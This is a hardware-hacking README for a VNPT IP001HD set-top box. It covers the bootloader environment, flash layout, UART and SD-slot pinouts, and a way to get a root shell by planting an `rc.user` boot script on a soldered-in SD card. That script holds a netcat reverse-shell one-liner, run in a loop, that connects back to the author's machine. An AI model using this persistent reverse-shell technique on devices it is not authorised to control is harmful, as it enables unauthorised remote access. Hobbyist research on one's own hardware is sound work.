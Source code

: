 # vnpt-ipe001hd
VNPT Igate set top box IP001HD

This repository contains data related to VNPT's IP001HD set-top box.
This box has a single core BCM7241 CPU running at 1305MHz along with 1GB DDR3-1866 and 3780MB of flash storage. The architecture is MIPS little endian.
Much of the info below can be obtained from the boot log.

## CFE 

Default environment:
```
CFE> printenv
Variable Name        Value
-------------------- --------------------------------------------------
        BOOT_CONSOLE uart0
 SPLASH_PART_STARTAD 228000
    SPLASH_PART_SIZE 400000
  LINUX_PART_STARTAD 628000
     LINUX_PART_SIZE 1000000
              SPLASH ENABLE
            ETH0_PHY INT
      ETH0_MDIO_MODE 1
          ETH0_SPEED 100
        ETH0_PHYADDR 1
            STARTUP0 boot -z -elf flash0.kernel: 'bmem=192M@64M bmem=512M@512M'
            STARTUP1 boot -z -elf flash0.recovery: 'bmem=192M@64M bmem=512M@512M'
            STARTUP2 sleep 1000 && boot -z -elf usbdisk0:vmlinuz-7429b0 'rootwait root=/dev/sda2 bmem=192M@64M bmem=512M@512M rw init=/init'
            BOOTMODE 0
            CFE_FUSE 11
         ETH0_HWADDR A0:65:18:8B:90:25
          STB_SERIAL 0122403S1F8B9025
         CHIP_SERIAL VNT0121S1F8B9025
            MTDPARTS
          DRAM0_SIZE 1024
          FLASH_TYPE EMMC
          FLASH_SIZE 3780
         CFE_VERSION 14.4
     CHIP_PRODUCT_ID 72410010
       CFE_BOARDNAME BCM97241USFF
      CFE_MEMORYSIZE 128
*** command status = 0

CFE> show devices
Device Name          Description
-------------------  ---------------------------------------------------------
              uart0  16550 DUART at 0xB0406700 channel 0
        flash0.rsv0  EMMC flash at 0000000000000000 offset 0000000000000000 size 32KB : emmc_part_DATA
      flash0.macadr  EMMC flash at 0000000000000000 offset 0000000000008000 size 64KB : emmc_part_DATA
       flash0.nvram  EMMC flash at 0000000000000000 offset 0000000000018000 size 64KB : emmc_part_DATA
        flash0.temp  EMMC flash at 0000000000000000 offset 0000000000028000 size 1024KB : emmc_part_DATA
     flash0.virtual  EMMC flash at 0000000000000000 offset 0000000000128000 size 1024KB : emmc_part_DATA
      flash0.splash  EMMC flash at 0000000000000000 offset 0000000000228000 size 4096KB : emmc_part_DATA
      flash0.kernel  EMMC flash at 0000000000000000 offset 0000000000628000 size 16384KB : emmc_part_DATA
    flash0.recovery  EMMC flash at 0000000000000000 offset 0000000001628000 size 16384KB : emmc_part_DATA
      flash0.system  EMMC flash at 0000000000000000 offset 0000000002628000 size 524288KB : emmc_part_DATA
       flash0.cache  EMMC flash at 0000000000000000 offset 0000000022628000 size 524288KB : emmc_part_DATA
        flash0.data  EMMC flash at 0000000000000000 offset 0000000042628000 size 2778944KB : emmc_part_DATA
        flash0.rsv1  EMMC flash at 0000000000000000 offset 00000000EBFF8000 size 32KB : emmc_part_DATA
         flash1.cfe  EMMC flash at 0000000000000000 offset 0000000000000000 size 1536KB : emmc_part_BOOT1
         flash2.cfe  EMMC flash at 0000000000000000 offset 0000000000000000 size 1536KB : emmc_part_BOOT2
               eth0  GENET Internal Ethernet at 0xB0700800
*** command status = 0

```
Some notes:
- The trick to append `init=/bin/sh` to `STARTUP` won't work.

## Getting shells

### 1. UART shell

UART shell can be accessed via J301 header with the following pins respectively: GND-RX-TX-VCC. However, I did not manage to proceed further than the CFE shell, as the Linux system requires logging in. To access the CFE shell, press Ctrl+C repeatedly when powering up the device.

### 2. System shell

In order to get to the system shell, some techniques need to be used. 

There is an unpopulated micro SD slot at J402 header. I initially thought it was the pinout of the flash chip, however by overlaying the images of the front and back of PCB and aligning the vias, I found out that it is not. The 7241 SoC has at least two SD/eMMC interfaces, one of the goes to the eMMC while the other goes to the header. An interesting note is that this SD card slot connects to the first SD/eMMC bus of the SoC (or at least first in the device tree used to compile the OS), thus getting the first number when enumerated (`mmcblk0` instead of `mmcblk1`). 

You can solder a micro sd slot directly to J402 as its pinout is very straightforward. But for extra clarity, here's the J402 header pinout (from left to right, respectively):
1. DAT1
2. DAT0
3. GND (VSS)
4. CLK
5. VCC (VDD)
6. CMD
7. DAT3
8. DAT2

This lefts the eMMC to the second node (mmcblk1). Booting up with a blank SD card reveals that unfortunately (fortunately for us), the system is hardcoded to use `mmcblk0` to mount /usr and /data. We also know the filesystem type of these two partitions are of ext4. Moreover, it tries to run a script named `rc.user` at the root of the `usr` partition.

With this knowledge, we will proceed to create two partitions on the card. The first partition will be named `usr` and the second partition will be named `data`. 

After creating the partitions, download Busybox for MIPS little endian (https://www.busybox.net/downloads/binaries/1.21.1/busybox-mipsel) and create a file named `rc.user` in root of `usr`. The `rc.user` file is a script that will be executed upon boot. We will use this opportunity to make it establish a reverse shell to our machine. Let's assume that our machine's address is 192.168.1.2.

The `rc.user` script needs to do at least these following things:
1. Copy busybox-mipsel to /bin: `cp busybox-mipsel /bin` because there is no `nc` utility in the box's stock `busybox`.
2. Softlink the nc utility: `ln -s /bin/busybox-mipsel /bin/nc`
3. (optional, if there is no DHCP) `ifconfig eth0 192.168.1.3`
4. Establish reverse shell: `rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.2 4242 >/tmp/f`

To have the system automatically reconnect without having to reboot when we mistakenly press Ctrl+C in the shell, it is good to put the 4th command in a infinite while loop.

That's it! Now our SD card contains the neccessary files to begin hacking the box. Pop it in the soldered sd slot, power the box on and wait for the shell.
